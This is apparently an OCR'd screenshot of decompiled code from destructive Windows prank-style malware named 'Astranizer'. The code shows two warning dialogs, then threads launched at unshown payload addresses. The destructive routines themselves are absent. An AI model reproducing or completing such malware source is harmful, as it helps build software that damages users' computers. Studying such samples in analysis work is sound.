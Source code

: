 ```
esi = esp;

MessageBoxA (0, " Do you want to run this program??\r\n\r\nThis malware is no joke to destroy to\r\nyour computer and make it unusable.\r\nIf you have epilepsy to see the GDI payloads press NO and delete this program\r\nIf you have a safe environment like Virtual machines to test press YES to start it\r\n\r\nThe creator is not responsible to make a lot of damage\r\nmade to this malware!\r\n\r\nARE YOU SURE DO YOU WANT TO RUN THIS!?", "Astranizer by GetMbr", 0x134);

eax = fcn_0042de19 ();

if (eax != 6) {

esi = esp;

ExitProcess (0);

}

esi = esp;

MessageBoxA (0, "THIS IS THE LAST WARNING\r\n\r\nARE YOU REALLY WANT TO RUN THIS DANGEROUS MALWARE!?\r\nPRESS YES TO START THE DESTRUCTION\r\nOR NO TO EXIT.\r\nARE YOU SURE TO WANT TO START THE DESTRUCTION!?", "LAST WARNING", 0x134);

eax = fcn_0042de19 ();

if (eax != 6) {

esi = esp;

ExitProcess (0);

}

esi = esp;

CreateThread (0, 0, data.0042f1f1, 0, 0, 0);

eax = fcn_0042de19 ();

esi = esp;

Sleep (0x7d0, eax);

fcn_0042de19 ();

esi = esp;

CreateThread (0, 0, data.0042e003, 0, 0, 0);

eax = fcn_0042de19 ();

esi = esp;

Sleep (0xbb8, eax);

fcn_0042de19 ();

fcn_0042d5b3 ();

esi = esp;

CreateThread (0, 0, data.0042d694, 0, 0, 0);
```